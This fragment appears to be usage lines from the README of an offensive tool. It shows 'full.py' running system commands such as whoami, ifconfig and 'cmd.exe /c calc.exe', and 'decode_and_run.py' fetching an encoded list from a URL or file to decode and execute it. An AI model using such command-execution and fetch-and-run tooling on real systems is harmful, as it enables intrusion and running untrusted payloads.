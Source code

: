 python full.py -cmd "whoami"
python full.py -cmd "ifconfig"
python full.py -cmd "cmd.exe /c calc.exe"

python decode_and_run.py -url http://127.0.0.1:8000/list.txt
python decode_and_run.py -file list.txt
